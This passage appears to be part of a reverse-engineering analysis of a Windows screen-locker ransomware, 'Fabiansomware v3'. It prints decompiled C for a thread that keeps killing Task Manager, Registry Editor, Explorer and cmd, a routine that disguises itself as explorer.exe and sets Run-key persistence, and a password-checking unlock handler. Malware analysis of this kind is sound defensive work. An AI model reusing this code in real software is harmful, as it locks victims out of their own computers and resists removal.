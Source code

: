 - **Location**: Adds an entry under Run keys for both current user and local machine.

### 4. Process Termination (sub_401820)

This function continuously monitors and terminates processes like Task Manager and Registry Editor.

```c
void __stdcall __noreturn sub_401820(LPVOID lpThreadParameter) {
  while (1) {
    Sleep(0x64u);
    HANDLE hSnapshot = CreateToolhelp32Snapshot(2u, 0);
    PROCESSENTRY32W pe = { .dwSize = 556 };
    if (Process32FirstW(hSnapshot, &pe) && Process32NextW(hSnapshot, &pe)) {
      do {
        if (!lstrcmpiW(L"taskmgr.exe", pe.szExeFile)) {
          HANDLE v3 = OpenProcess(1u, 0, pe.th32ProcessID);
          if (v3) TerminateProcess(v3, 0);
        }
        // Similar checks for "regedit.exe", "explorer.exe", "cmd.exe"
      } while (Process32NextW(hSnapshot, &pe));
    }
    CloseHandle(hSnapshot);
  }
}
```

- **Purpose**: Prevents users from interfering with the ransomware.

### 5. GUI and Decryption (sub_401BE0 and start)

The start function initializes the program, creates a mutex to avoid multiple instances, and sets up a GUI window. The sub_401BE0 function handles window messages, including password input for decryption.

```c
WPARAM __stdcall start(HINSTANCE hInstance, int a2, int a3, int a4) {
  CreateMutexW(0, 0, L"Local\\Fabiansomware");
  if (GetLastError() == 183) ExitProcess(0); // Exit if already running
  // Copy itself to %PROGRAMFILES%\Windows NT\explorer.exe
  CopyFileW(&pszFirst, ApplicationName, 1);
  sub_401AD0(); // Set persistence
  // Create GUI window
  WNDCLASSEXW v27 = { .cbSize = 48, .lpfnWndProc = sub_401BE0, .lpszClassName = L"Fabiansomware v3" };
  RegisterClassExW(&v27);
  HWND Window = CreateWindowExW(0, L"Fabiansomware v3", L"Fabiansomware v3", 0x480000u, ...);
  hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)sub_401820, 0, 0, 0); // Start process killer
  // Message loop
  while (GetMessageW(&Msg, 0, 0, 0)) {
    TranslateMessage(&Msg);
    DispatchMessageW(&Msg);
  }
  return Msg.wParam;
}

LRESULT __stdcall sub_401BE0(HWND hWnd, UINT Msg, WPARAM wParam, LPARAM lParam) {
  if (Msg == 273 && !HIWORD(wParam)) { // Button click
    WCHAR String[256];
    GetWindowTextW(::hWnd, String, 255);
    if (dword_405460(0, String, 2 * lstrlenW(String)) == 664891434) { // Check password CRC32
      TerminateThread(hThread, 0);
      sub_401A70(); // Restart explorer.exe
      sub_401B70(); // Remove persistence
      ExitProcess(0);
    }
```